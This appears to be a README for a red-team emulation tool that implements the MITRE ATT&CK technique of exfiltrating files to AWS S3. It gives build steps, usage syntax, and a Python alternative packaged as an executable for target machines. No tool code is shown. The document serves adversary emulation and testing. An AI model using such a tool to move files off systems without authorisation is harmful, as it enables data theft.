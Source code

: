 # T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage

Implementation of [T1567.002](https://attack.mitre.org/techniques/T1567/002) - Exfiltration Over Web Service: Exfiltration to Cloud Storage.

## Features

- Upload files to AWS S3 buckets

## Prerequisites

- [.NET SDK](https://dotnet.microsoft.com/download)
- [Task](https://taskfile.dev) for building
- AWS Account with S3 access
- AWS Access Key and Secret Key

## Setup

Configure your AWS credentials:

- Replace the following constants in `Program.cs` with your values:

  ```csharp
  accessKey = "your-access-key"
  secretKey = "your-secret-key"
  ```

## Build

Build for your current platform:

```bash
task build
```

Publish for a specific platform:

```bash
# Windows x64
task publish

# Linux x64
task publish RUNTIME=linux-x64

# macOS x64
task publish RUNTIME=osx-x64
```

## Usage

The application accepts the following command-line arguments:

```bash
t1567-002 <upload> <file_path> <bucket_name> [region]
```

- `upload`: Operation to perform
- `file_path`: Path to the file
- `bucket_name`: Name of the S3 bucket
- `region`: Optional AWS region (defaults to us-east-1)

## Note

Ensure your AWS credentials have appropriate permissions to perform the required S3 operations.



--- 

## Alternate Python Implementation

In case dotnet is not present on the target environment the python code can be packed into an exe to emulate the TTP.

## Setup

Configure your AWS credentials:

- Replace the following constants in `t1567-002.py` with your values:

  ```python
  accessKey = "your-access-key"
  secretKey = "your-secret-key"
  region = "your-aws-region"
  ```

## Build

Build:
```
# Setup virtual environment
python.exe -m venv .venv
source .venv/bin/activate

# Installing dependencies
python.exe -m pip install pyinstaller boto3

# Packaging the python code file into an executable
pyinstaller --onefile .\t1567-002.py
```

Usage 

The application accepts the following command-line arguments:

```
.\t1567-002.exe <bucketname> <filepath>
```

- `filepath`: Path to the file
- `bucketname`: Name of the S3 bucket

